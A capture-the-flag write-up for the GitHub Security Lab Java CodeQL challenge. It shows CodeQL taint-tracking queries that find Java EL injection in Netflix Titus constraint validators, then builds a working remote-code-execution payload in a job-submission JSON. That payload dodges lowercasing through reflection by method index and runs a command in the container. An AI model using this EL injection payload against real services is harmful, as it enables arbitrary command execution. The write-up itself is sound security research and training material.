

# GitHub Java CTF Submission: Kanav Gupta
Submission for the GitHub Security Lab CTF 4: CodeQL and Chill - The Java Edition

Table of Contents -
  * [Introduction](#introduction)
  * [Step 1: Data Flow and Taint Tracking Analysis](#step-1-data-flow-and-taint-tracking-analysis)
     * [1.1 Sources](#11-sources)
     * [1.2 Sink](#12-sink)
     * [1.3 TaintTracking Configuration](#13-tainttracking-configuration)
     * [1.4 Partial Flow to the rescue](#14-partial-flow-to-the-rescue)
     * [1.5 Identifying a missing taint step](#15-identifying-a-missing-taint-step)
     * [1.6 Adding additional taint steps](#16-adding-additional-taint-steps)
     * [1.7 Adding taint steps through a constructor](#17-adding-taint-steps-through-a-constructor)
  * [Step 2: Second Issue](#step-2-second-issue)
  * [Step 3: Errors and Exceptions](#step-3-errors-and-exceptions)
  * [Step 4: Exploit and Remedition](#step-4-exploit-and-remedition)
     * [Lowercase Remedy](#lowercase-remedy)
     * [Final Payload](#final-payload)
     * [4.1 PoC: Reproducing vulnerability locally](#41-poc-reproducing-vulnerability-locally)
     * [4.2 Remediation](#42-remediation)
  * [Ending remarks and Feedback](#ending-remarks-and-feedback)

## Introduction

The challenge introduction aptly summarizes the issue: user controlled data being passed into the Bean Validation library function `ConstraintValidatorContext.buildConstraintViolationWithTemplate` which supports Java EL Expressions. Hence, remote code execution. That might seem to be the end of the issue, but it isn't. Getting an RCE wasn't as easy as just passing an EL expression. Some issues like lowercasing of the user input stopped us from getting the exploit. In this report I explain how I found specific user controlled data which flows into the target function using CodeQL, assess what requirements we have for a successful remote code execution and finally I present the exploit.

## Step 1: Data Flow and Taint Tracking Analysis

### 1.1 Sources

An important part of finding the exploit is finding where all the user controlled data can come from. A good starting point is explained in the challenge page itself - first formal parameter to the function `isValid`. 

So the predicate to this is quiet straight forward

```codeql
class TypeConstraintValidator extends GenericInterface {
  TypeConstraintValidator() { hasQualifiedName("javax.validation", "ConstraintValidator") }
}

predicate isSource(DataFlow::Node source) { 
    exists(Method m, ParameterizedInterface p |
        source.asParameter() = m.getParameter(0) and
        m.hasName("isValid") and 
        m.getDeclaringType().hasSupertype(p) and
        p.getSourceDeclaration() instanceof TypeConstraintValidator
    )
}
```

In this snippet, class `TypeConstraintValidator` the interface `javax.validation.ConstraintValidator`. To explain the query, we want such sources for which, there exists such method whose first paramenter is the node itself, and name of the method is `isValid` and the method is a part of a class which extends `javax.validation.ConstraintValidator`.

<kbd>

</kbd>

We see 8 results, but 2 out of these 8 don't override the `isValid` provided by the interface `javax.validation.ConstraintValidator`. We filter them out using this following query (and using better variable names) -

```codeql
predicate isSource(DataFlow::Node source) { 
  exists(Method isValid, ParameterizedInterface originalConstrainValidator, Method originalIsValid |
      source.asParameter() = isValid.getParameter(0) and
      isValid.hasName("isValid") and 
      isValid.getDeclaringType().hasSupertype(originalConstrainValidator) and
      originalConstrainValidator.getSourceDeclaration() instanceof TypeConstraintValidator and
      originalIsValid.hasName("isValid") and
      originalIsValid.getDeclaringType() = originalConstrainValidator and
      isValid.overrides(originalIsValid)
  )
}
```

<kbd>

</kbd>
<br/>
<br/>

_NOTE_: I attempted the bonus part too, it's writeup is present in the file [bonus.md](bonus.md). Do check it out if the submissions are close enough!

### 1.2 Sink

As we know where the actual vulnerability exists, i.e. `buildConstraintViolationWithTemplate`, writing the sink was trivial.

```codeql
predicate isSink(DataFlow::Node sink) { 
  exists(MethodAccess sinkFunction, Interface constraintValidatorContext | 
    sink.asExpr() = sinkFunction.getArgument(0) and
    sinkFunction.getMethod().hasName("buildConstraintViolationWithTemplate") and
    sinkFunction.getQualifier().getType() = constraintValidatorContext and
    constraintValidatorContext.hasQualifiedName("javax.validation", "ConstraintValidatorContext")
  )
}
```

That is, we want all nodes which are first argument to a method call whose name is `buildConstraintViolationWithTemplate` and it should be called by a qualifier of type `javax.validation.ConstraintValidatorContext`.


We get the expected results.

### 1.3 TaintTracking Configuration

We have our sources and sinks ready. We now run the full taint tracking query to find all the taint flow paths.

```codeql
/** 
* @kind path-problem 
*/
import java
import semmle.code.java.dataflow.TaintTracking
import DataFlow::PathGraph

class TypeConstraintValidator extends GenericInterface {
  TypeConstraintValidator() { hasQualifiedName("javax.validation", "ConstraintValidator") }
}

class MyTaintTrackingConfig extends TaintTracking::Configuration {
    MyTaintTrackingConfig() { this = "MyTaintTrackingConfig" }

    override predicate isSource(DataFlow::Node source) { 
      exists(Method m, ParameterizedInterface p, Method m2 |
          source.asParameter() = m.getParameter(0) and
          m.hasName("isValid") and 
          m.getDeclaringType().hasSupertype(p) and
          p.getSourceDeclaration() instanceof TypeConstraintValidator and
          m2.hasName("isValid") and
          m2.getDeclaringType() = p and
          m.overrides(m2)
      )
    }

    override predicate isSink(DataFlow::Node sink) { 
      exists(MethodAccess c, Interface constraintValidatorContext | 
        sink.asExpr() = c.getArgument(0) and
        c.getMethod().hasName("buildConstraintViolationWithTemplate") and
        c.getQualifier().getType() = constraintValidatorContext and
        constraintValidatorContext.hasQualifiedName("javax.validation", "ConstraintValidatorContext")
      )
    }
}

from MyTaintTrackingConfig cfg, DataFlow::PathNode source, DataFlow::PathNode sink
where cfg.hasFlowPath(source, sink)
select sink, source, sink, "Custom constraint error message contains unsanitized user data"
```

And as mentioned in the challenge page, I get 0 results.

### 1.4 Partial Flow to the rescue

To debug why we get no result, we use Partial Flow analysis. We know that we have a vulnerability in the file `SchedulingContraintSetValidator.java`, so we set the source to the formal parameter of this method.

```codeql
/** 
* @kind path-problem 
*/
import java
import semmle.code.java.dataflow.TaintTracking
import DataFlow::PartialPathGraph

class TypeConstraintValidator extends GenericInterface {
  TypeConstraintValidator() { hasQualifiedName("javax.validation", "ConstraintValidator") }
}

class MyTaintTrackingConfig extends TaintTracking::Configuration {
    MyTaintTrackingConfig() { this = "MyTaintTrackingConfig" }

    override predicate isSource(DataFlow::Node source) { 
        exists(Method m, ParameterizedInterface p |
            source.asParameter() = m.getParameter(0) and
            m.getName() = "isValid" and 
            m.getDeclaringType().hasSupertype(p) and
            p.getSourceDeclaration() instanceof TypeConstraintValidator and
            m.getAnAnnotation() instanceof OverrideAnnotation
        )
    }

    override predicate isSink(DataFlow::Node sink) { 
        exists(MethodAccess c | sink.asExpr() = c.getArgument(0) and
            c.getMethod().hasName("buildConstraintViolationWithTemplate"))
    }

    override int explorationLimit() { result =  10 }
}

from MyTaintTrackingConfig cfg, DataFlow::PartialPathNode source, DataFlow::PartialPathNode sink
where
  cfg.hasPartialFlow(source, sink, _) and
  exists(Method m | 
    source.getNode().asParameter() = m.getParameter(0) and
    m.getParameter(0).getType().hasName("Container")
  )
select sink, source, sink, "Partial flow from unsanitized user data"
```

In the output, we see that flow stops at the return statement of the getters like `getSoftConstraints` and `getHardConstraints`. 

### 1.5 Identifying a missing taint step

As we see in the last step, the code doesn't propagate through the getters. My best bet why this happens is because getters not always point to tainted data. They often point to some static variables, which are not tainted.

### 1.6 Adding additional taint steps

We need to step through the getters as explained in the last step. For this, we add an addition step where we step from a method access to it's qualifier. As suggested in the challenge, we extend `TaintTracking::AdditionalTaintStep`.

```codeql
class CustomStepper extends TaintTracking::AdditionalTaintStep {
  override predicate step(DataFlow::Node pred, DataFlow::Node succ) {
    exists(MethodAccess ma, GetterMethod m |
        succ.asExpr() = ma and
        pred.asExpr() = ma.getQualifier() and
        ma.getCallee() = m
    )
  }
}

```
We restrict our step only through the getter methods, not through general methods. But in the output we see that


We don't step through `keySet()` method. So we must step through this method too.

```codeql
class CustomStepper extends TaintTracking::AdditionalTaintStep {
  override predicate step(DataFlow::Node pred, DataFlow::Node succ) {
    exists(MethodAccess ma, GetterMethod m |
        succ.asExpr() = ma and
        pred.asExpr() = ma.getQualifier() and
        ma.getCallee() = m
    ) or
    exists(MethodAccess ma |
        succ.asExpr() = ma and
        pred.asExpr() = ma.getQualifier() and
        ma.getMethod().getName() = "keySet"
    )
  }
}
```


This time, the flow stops at the HashSet Constructor.

### 1.7 Adding taint steps through a constructor

We just join the two conditions, i.e. through getters and through constructors.

```codeql
class CustomStepper extends TaintTracking::AdditionalTaintStep {
  override predicate step(DataFlow::Node pred, DataFlow::Node succ) {
    exists(MethodAccess ma, GetterMethod m |
        succ.asExpr() = ma and
        pred.asExpr() = ma.getQualifier() and
        ma.getCallee() = m
    ) or
    exists(MethodAccess ma |
        succ.asExpr() = ma and
        pred.asExpr() = ma.getQualifier() and
        ma.getMethod().getName() = "keySet"
    ) or
    exists(ConstructorCall ma |
        succ.asExpr() = ma and
        ma.getArgument(0) = pred.asExpr() and
        ma.getConstructedType().getErasure().(Class).hasQualifiedName("java.util", "HashSet")
    )
  }
}
```

Hurray :tada:! We reached our final destination function. We have fixed the steps for the `SchedulingConstraintSetValidator.java` file. Other files to go!

## Step 2: Second Issue

To find the issue in the file `SchedulingConstraintValidator.java`, we use the same configuration but with modified query

```codeql
from MyTaintTrackingConfig cfg, DataFlow::PartialPathNode source, DataFlow::PartialPathNode sink
where
  cfg.hasPartialFlow(source, sink, _) and
  exists(Method m | 
    source.getNode().asParameter() = m.getParameter(0) and
    m.getDeclaringType().getName() = "SchedulingConstraintValidator"
  )
select sink, source, sink, "Partial flow from unsanitized user data"
```


The flow stops at `keySet()` call. We need to make it step through `stream()`, `map(...)` and `collect(...)`.

```codeql
class CustomStepper extends TaintTracking::AdditionalTaintStep {
  override predicate step(DataFlow::Node pred, DataFlow::Node succ) {
    exists(MethodAccess ma, GetterMethod m |
        succ.asExpr() = ma and
        pred.asExpr() = ma.getQualifier() and
        ma.getCallee() = m
    ) or
    exists(MethodAccess ma |
        succ.asExpr() = ma and
        pred.asExpr() = ma.getQualifier() and
        (ma.getMethod().getName() in ["keySet", "stream", "map", "collect"] )
    ) or
    exists(ConstructorCall ma |
        succ.asExpr() = ma and
        ma.getArgument(0) = pred.asExpr() and
        ma.getConstructedType().getErasure().(Class).hasQualifiedName("java.util", "HashSet")
    )
  }
}
```

Our flow reaches the target function :tada:

## Step 3: Errors and Exceptions
As stated in the challenge, we have to make a custom step such that if we see a code like this

```java
try {
    parse(tainted);
} catch (Exception e) {
    sink(e.getMessage())
}
```

we should step from `tainted` to `e.getMessage()`, subject to some conditions like the function that the `tainted` variable/expression is passed into should throw a throwable which can be caught by the respective catch clause, the message should be written by the successor expression (using methods like `getMessage()`). So the query I could write is this -

```codeql
class TryCatchStepper extends TaintTracking::AdditionalTaintStep {
  override predicate step(DataFlow::Node pred, DataFlow::Node succ) {
    exists(TryStmt t, CatchClause c, MethodAccess ma, MethodAccess ma2 |
      // connect try and catch
      c.getTry() = t and
      // in catch, the method access would be the successor...
      ma2 = succ.asExpr() and
      // restricting to those methods that write something
      (
        ma2.getMethod().getName() in ["getMessage", "getStackTrace", "getSuppressed", "toString", "getLocalizedMessage"] or
        ma2.getMethod().getName().prefix(3) = "get" or
        ma2.getMethod() instanceof GetterMethod
      ) and
      // and it's qualifier should be the error variable.
      c.getVariable().getAnAccess() = ma2.getQualifier() and
      // predecessor would be an argument of a method access...
      ma.getAnArgument() = pred.asExpr() and
      // which is contained in the try statement
      ma.getEnclosingStmt().getParent*() = t.getBlock() and
      // and the method should throw some subtype of the caught clause type
      ma.getMethod().getAThrownExceptionType().getASupertype*() = c.getACaughtType() and
      // coz obviously...
      not pred.asExpr() instanceof Literal
    )
  }
}
```

(I admit that `ma2.getMethod().getName().prefix(3) = "get"` is too general, but it helps when you don't know the inner implementation of the getter.)

As challenge states, I couldn't get any additional paths due to this addition. But on quick evaluation I get completely right results.


Final query (without bonus part) is available in the file .

## Step 4: Exploit and Remedition

First step towards a successful exploit is setting up a development environment. I set up the project on Docker using the `docker-compose.yml` and tweaked the Dockerfiles to fire up debugging in IntelliJ IDEA.

First glance at the files `SchedulingConstraintValidator.java` and `SchedulingConstraintSetValidator.java` suggest that the keys of the dictonaries are passed into the template builder function. That's were our EL expression will go.

A neat data model for Titus can be found [here](https://github.com/Netflix/titus-api-definitions/blob/master/doc/Titus_v3_data_model.png). It clearly shows that `softConstraints` and `hardConstraints` are inside the class `Container` and an instance of class is made under `JobDescriptor`. So, I make a reasonable guess that we can tweak the JobDescriptor object while creating a job to get an RCE. In the main readme file of titus-control-plane, under the section ([here](https://github.com/Netflix/titus-control-plane#local-testing-with-docker-compose)) they have provided the basic curl request to submit a job. We need to just add the keys `softConstraints` and `hardConstraints` to the data payload. A very basic payload should be:

```json
{
    "applicationName": "myApp",
    "owner": {
        "teamEmail": "hello@gmail.com"
    },
    "container": {
        "resources": {
            "cpu": 1,
            "memoryMB": 128,
            "diskMB": 128,
            "networkMbps": 1
        },
        "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
        "image": {
            "name": "ubuntu",
            "tag": "xenial"
        },
        "softConstraints": {
            "constraints": {
                "#{6*9}": "lol"
            }
        },
        "hardConstraints": {
            "constraints": {
                "#{6*9}": "lol"
            }
        }
    },
    "service": {
        "capacity": {
            "min": 1,
            "max": 1,
            "desired": 1
        },
        "retryPolicy": {
            "immediate": {
                "retries": 10
            }
        }
    }
}
```

We see a successful response -
```json
{
    "statusCode": 400,
    "message": "Invalid Argument: {Validation failed: 'field: 'container.softConstraints', description: 'Unrecognized constraints [54]', type: 'HARD''}, {Validation failed: 'field: 'container.hardConstraints', description: 'Unrecognized constraints [54]', type: 'HARD''}, {Validation failed: 'field: 'container', description: 'Soft and hard constraints not unique. Shared constraints: [54]', type: 'HARD''}"
}
```

Things get interesting when we send an actual exploit, i.e we send the EL Expression `#{''.class.forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').eval('java.lang.Runtime.getRuntime().exec("touch /tmp/hello")')}`

```json
{
    "statusCode": 500,
    "message": "Unexpected error: HV000149: An exception occurred during message interpolation"
}
```

We open our debugger, and we find that when creating a job, first individual constraints are validated (using `isValid` function in `SchedulingConstraintValidator.java` file) to see if valid keys are sent, then validation for the complete set is done to see if both constraint sets dont contain anything common.

As the validation is done inside `SchedulingConstraintValidator.java` file first, we see that in the `isValid` function:

```
Set<String> namesInLowerCase = value.keySet().stream().map(String::toLowerCase).collect(Collectors.toSet());
```

This is why we get 500. The complete EL expression is converted to lowercase, i.e 
```
#{''.class.forname('javax.script.scriptenginemanager').newinstance().getenginebyname('js').eval('java.lang.runtime.getruntime().exec("touch /tmp/hello")')}
```
which should obviously error because Java doesn't know any class by name "javax.script.scriptenginemanager". Even though this lowercasing doesn't happen in `SchedulingConstraintSetValidator.java`, but the code errors before reaching there.

So we now need to forge an EL expression such that all the letters in the code are in lowercase (which is tough, because Java inherently uses camel-case).

### Lowercase Remedy

For achieving this, we use `a.class.methods[*].invoke(a, args...)` to invoke any method, instead of invoking them by `a.methodCanContainCapitalLetters(args...)`. Only thing we need to do is to find at what index of `a.class.methods` does the function we need lie. We can also use `'a'.replace('a', 83)` to print "S" and other such strings.

The below table contains some of the examples,

Required Code | Payload
--- | ---
`''.class.forName(x)` | `''.class.class.methods[0].invoke(''.class, x)`
`''.class.forName('javax.script.ScriptEngineManager')` | `''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')`
`''.class.forName('javax.script.ScriptEngineManager').newInstance()` | `''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager'))`
`''.class.forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js')` | `''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')).class.methods[1].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')), 'js')`

### Final Payload

Continuing such translation, I managed to run `''.class.forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('js').compile('java.lang.Runtime.getRuntime().exec("touch /tmp/hello")').eval()`

```json
{
    "applicationName": "myApp",
    "owner": {
        "teamEmail": "hello@gmail.com"
    },
    "container": {
        "resources": {
            "cpu": 1,
            "memoryMB": 128,
            "diskMB": 128,
            "networkMbps": 1
        },
        "securityProfile": {"iamRole": "test-role", "securityGroups": ["sg-test"]},
        "image": {
            "name": "ubuntu",
            "tag": "xenial"
        },
        "softConstraints": {
        },
        "hardConstraints": {
            "constraints": {
                "#{''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')).class.methods[1].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')), 'js').class.methods[7].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')).class.methods[1].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')), 'js'), 'print(1);').class.methods[3].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')).class.methods[1].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')), 'js').class.methods[7].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')).class.methods[1].invoke(''.class.class.methods[14].invoke(''.class.class.methods[0].invoke(''.class, 'javax.script.' + 'a'.replace('a', 83) + 'cript' + 'a'.replace('a', 69) + 'ngine' + 'a'.replace('a', 77) + 'anager')), 'js'), 'java.lang.' + 'a'.replace('a', 82) +  'untime.get' + 'a'.replace('a', 82) + 'untime().exec(\"touch /tmp/pwn\")')) + ''}": "lol"
            }
        }
    },
    "service": {
        "capacity": {
            "min": 1,
            "max": 1,
            "desired": 1
        },
        "retryPolicy": {
            "immediate": {
                "retries": 10
            }
        }
    }
}
```


:tada:


But this payload contains a particular caveat. Index for a particular function changes with different boots. This happens generally for the methods with multiple overloads, like `compile` function which have overloads for both `String` and `Reader`. Hence we need to find the index first. I observed the change of index from 7 to 6. So it's important to first find at what indexes our desired functions are, then we can execute our code. But `compile` doesn't contain capital letters (I forgot this :p), this problem doesn't pose that much problem for us.

A more refined version of this payload is present in this [file](payloads/refined.sh) (if you need to see only json, see this [file](payloads/refined.json)) but the caveat is still present there. I never experienced a problem, but as we still are using indexes, problem can occur. Best way to handle this is by making a loop of all indexes and fetch the  method's signature and see at which index you see the required method.

A python project where you can run a complete shell (like in SSH) is present [here](titus-shell/).
<p align="center">
  <a href="https://asciinema.org/a/ISMpd2C6Rn1NV1Y2SyyqE8I1P">
    
  </a>
</p>

### 4.1 PoC: Reproducing vulnerability locally

Dependencies other than that for Titus:
1. Python 3

Steps:
1. Setup titus-control-plane at commit 8a8bd4c at default ports (7001).
2. Change directory to `titus-shell/` in this repository.
3. Install the package dependencies (in a virtual environment maybe) using `pip3 install -r requirements.txt`
4. Run `python3 shell.py` to start the shell.
5. Any command you enter would run on the `gateway` container of titus.

If you don't wish to run a shell, just copy the contents of the [refined.sh](/payloads/refined.sh) file and paste it to your shell. You will see that a file `/tmp/pwn` is made in the `gateway` container.

Please note that this is a sort of shell, not a complete shell. So shell builtins (like cd) and redirections (echo abc > a.txt) won't work.

### 4.2 Remediation

Running the same query on latest commit on LGTM.com (link - https://lgtm.com/query/667639841955693170/) gives me no alerts!



## Ending remarks and Feedback

This was my first use of CodeQL and must say, writing queries was not a pain at all because of the autocomplete feature, thumbs up to that! But the engine takes up a lot of temporary space on laptop, and I happened to be almost running out of space on my laptop. I feel CodeQL is a powerful tool, and I am planning to perform static analysis on firefox after this, thanks to creators of this awesome tool! Cheers!
